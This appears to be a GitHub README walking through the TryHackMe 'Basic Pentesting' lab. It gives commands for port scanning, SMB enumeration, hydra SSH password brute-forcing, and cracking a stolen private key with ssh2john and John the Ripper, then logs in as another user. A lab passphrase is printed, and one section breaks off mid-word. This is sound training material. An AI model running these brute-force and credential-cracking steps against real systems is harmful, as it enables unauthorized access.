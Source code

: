 # ✅ TryHackMe CTF Walkthrough: Basic Pentesting

This repository contains a comprehensive walkthrough of how I solved the **Basic Pentesting CTF** on TryHackMe.  
The CTF focuses on fundamental penetration testing skills by simulating a vulnerable machine designed for beginners.

---

## 🎯 Room Overview

The **Basic Pentesting CTF** is a practical introduction to penetration testing methodologies.  
It is structured to teach and test key skills such as:

- VPN connectivity to the TryHackMe network.  
- Information gathering and reconnaissance techniques.  
- Web directory busting.  
- SMB service enumeration and exploitation.  
- Brute-force attacks to crack weak passwords.  
- SSH key extraction and cracking for privilege escalation.  
- Practical use of essential pentesting tools.

---

## 📚 Step-by-Step Walkthrough

1. Connect With the TryHackMe server using Command:  
   ```bash
   sudo openvpn Downloads/Ynos.ovpn
   ```

2. Confirm you can connect to the machine using the command:  
   ```bash
   ping <IP of the machine>
   ```

3. Start the nmap scan with:  
   ```bash
   nmap -sV -O -T5 -p- 10.10.87.116 -oN Nmap.results
   ```

4. While scanning, start directory busting the website and you will find some directories here mainly **development** (nothing important).

5. The nmap results will show that the **SMB service is open on ports 139 and 445**, which is a very buggy and exploitable service.  
   We will exploit this to gain access to this computer.

6. As the SMB service is open, we will attack it with the tool **enum4linux** using the command:  
   ```bash
   enum4linux 10.10.87.116 | tee enum4linux.results
   ```

7. From this result, we find out that the username of this person is **jan**.  
   Previously from our enumeration, we found that this person had a weak password, so we will perform a brute-force attack with **hydra** using the command:  
   ```bash
   hydra -l jan -P /usr/share/wordlists/rockyou.txt -f ssh://10.10.87.116 -o hydra.results
   ```

8. From hydra, we discovered the password for this user.

9. Now we will gain access to its shell using the command:  
   ```bash
   ssh jan@10.10.87.116
   ```

10. After gaining access, start enumeration with basic commands like:  
    ```bash
    id
    sysinfo
    ```

11. During enumeration, I learned that there is a file that contains a key to your machine that you can give to someone, allowing them to log into the computer as you.

12. Found that jan had the file in the **.ssh folder named id_rsa**.

13. Now we need to convert the private key into a hash format that can be cracked by John the Ripper.

14. We do that by running:  
    ```bash
    ssh2john id_rsa > hash
    ```  
    where `hash` is the filename of the newly created hash.

15. Now we crack this hash using:  
    ```bash
    john hash --wordlists=/usr/share/wordlists/rockyou.txt
    ```

16. The passphrase revealed by John the Ripper was:  
    ```
    beeswax
    ```

17. If we try to get the shell at this point, it will say that file permission is too open, so we need to change file permission to 600 by the command:  
    ```bash
    chmod 600 id_rsa
    ```

18. Now we will gain access to the shell using the command:  
    ```bash
    ssh -i id_rsa kay@10.10.87.116
    ```

19. Enter pass:  
    ```
    beeswax
    ```

20. Successfully got the shell through user **kay**.

---

## 🎯 Skills Gained

- VPN connection techniques for remote lab access.  
- Nmap scanning and directory busting for surface discovery.  
- SMB enumeration using **enum4linux**.  
- Brute-force password discovery using **Hydra**.  
- SSH login and basic system enumeration commands.  
- SSH private key extraction, hash generation, and cracking using **ssh2john** and **John the Ripper**.  
- Proper handling of private key file permissions.  
- Privilege escalation via key-based SSH login.

---

## ⚡ Final Outcome

- Successfully enumerated the target using **Nmap, dirb, and enum4linux**.  
- Discovered and exploited weak credentials via brute force.  
- Extracted and cracked SSH private key.  
- Gain
---

## 🔗 Room Link

[Basic Pentesting – TryHackMe](https://tryhackme.com/room/basicpentesting)

---

## 👤 Author

**Harbeer-Singh**

